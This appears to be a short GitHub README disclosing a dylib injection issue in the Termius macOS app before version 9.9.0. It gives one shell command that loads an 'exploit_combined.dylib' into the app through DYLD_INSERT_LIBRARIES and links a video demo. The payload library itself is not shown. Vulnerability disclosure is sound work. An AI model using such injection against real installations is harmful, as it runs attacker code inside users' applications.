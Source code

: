 # Termius-Command-injection
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/R-Kze6liCwA/maxresdefault.jpg)](https://youtu.be/R-Kze6liCwA)
